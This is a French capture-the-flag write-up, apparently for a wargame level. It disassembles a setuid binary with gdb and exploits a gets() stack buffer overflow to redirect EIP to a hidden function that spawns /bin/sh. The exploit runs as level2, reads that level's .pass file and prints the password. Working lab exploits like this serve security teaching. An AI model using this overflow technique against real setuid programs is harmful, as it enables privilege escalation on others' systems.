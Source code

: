 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
  [...]
  ```
    - On a un binaire appartenant a level2 dans le home

- `./level1`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - rien

- `gdb level1`
  - `info function`
    ```
    [...]
      0x08048444  run
      0x08048480  main
    [...]
    ```
    - On trouve une fonction run en plus du main
  - `disas main`
    ```
      Dump of assembler code for function main:
    [...]
      0x08048486 <+6>:    sub    esp,0x50
    [...]
      0x08048490 <+16>:   call   0x8048340 <gets@plt>
    [...]
    ```
    - Le programme alloue 80 octets (0x50) pour stocker ses variables dans la stack, puis fait un appel a gets()
    - La fonction run n'est pas appelée
    
  - `disas run`
    ```
      Dump of assembler code for function run:
    [...]
      0x08048451 <+13>:	mov    eax,0x8048570
    [...]
      0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
      0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
      0x08048479 <+53>:	call   0x8048360 <system@plt>
    [...]
    ```
    - La fonction run met la valeur située à 0x8048570 dans eax
    - Call fwrite() avec la valeur dans eax (donc la valeur à 0x8048570):
      - `x/s 0x8048570`
        ```
          0x8048570:	 "Good... Wait what?\n"
        ```
    - Call system() avec la valeur située à 0x8048584:
      - `x/s 0x8048584`
        ```
          0x8048584:	 "/bin/sh"
        ```
## Exploit

- L'objectif va être de forcer l'appel de la fonction 'run' par 'main'.
- On va tirer avantage de la [vulnérabilité de gets à un buffer overflow](https://faq.cprogramming.com/cgi-bin/smartfaq.cgi?answer=1049157810&id=1043284351) pour écrire l'adresse de run dans l'EIP. 
- Comme vu plus haut, main alloue 80 octets dans la stack pour ses variables, on va commencer par là:
  - `python -c 'print "a" * 80' > /tmp/exploit`
  - `gdb level1`
    - `layout reg`
    - `run < /tmp/exploit`
      ```
        Starting program: /home/user/level1/level1 < /tmp/exploit

        Program received signal SIGSEGV, Segmentation fault.
        0x61616161 in ?? ()
      ```
      - Nice, on SegFault comme attendu et l'eip est réécrit avec des a:
        ```
          eip            0x61616161       0x61616161
        ```
- L' EIP étant codé sur 4 octets dans un système 32bits, on devrait pouvoir écrire l'adresse de run dans les 4 derniers octets, on vérifie avec un exploit de 76 "a" et 4 "b" :
  - `python -c 'print "a" * 76 + "b" * 4' > /tmp/exploit`
    ```
      eip            0x62626262       0x62626262 
    ```
      - Parfait, l'EIP est écrasé par les 4 derniers octets
- On a vu plus haut que l'adresse de 'run' est 0x08048444, on la passe en little endian avant de la load à la fin de notre exploit:
  - `python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit`
  - `cat /tmp/exploit | ./level1`
    ```
      Good... Wait what?
      Segmentation fault (core dumped)
    ```
    - Ok, on lance bien la fonction run, mais le shell est close tout de suite, il faut [garder stdin ouvert avec cat](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process):
      > " The shell doesn't have any input - when it detects EOF it dies. " 
      - `cat /tmp/exploit - | ./level1`
        ```
          Good... Wait what?
          whoami
          level2
          cat /home/user/level2/.pass
          53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
        ```
